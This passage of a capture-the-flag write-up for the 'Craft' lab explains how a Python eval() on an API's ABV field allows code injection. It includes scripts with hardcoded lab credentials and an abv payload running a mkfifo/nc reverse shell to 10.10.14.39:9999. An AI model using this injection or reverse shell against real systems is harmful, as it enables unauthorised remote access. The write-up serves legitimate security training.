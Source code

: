 ```
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)

# create a sample brew with bogus ABV... should fail.

print("Create bogus ABV brew")
brew_dict = {}
brew_dict['abv'] = '15.0'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = '0.15'
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```
A little more digging will reveal another commit to ```brew.py``` where they fixed an issue in the api where you could ad bogus ABV values. Taking a closer look at ```brew.py``` reveals something interesting. 
<br><br>
The part the handles the ABV value is a python eval function. This tells me that if I can figure out a way to pass some input to that then I could get a shell on the system.
```
if eval('%s > 1' % request.json['abv']):
    return "ABV must be a decimal value less than 1.0", 400
else:
    create_brew(request.json)
    return None, 201
```
Now the python script from earlier does exactly that. It generates an api token for us and then sends a POST request to create a new brew and in that request is the ABV value which we can modify in the python script with a reverse shell. I removed some of the excess code.
```
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('ebachman', 'llJ77D8QFkLPQB'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)

brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.39 9999 >/tmp/f')"
```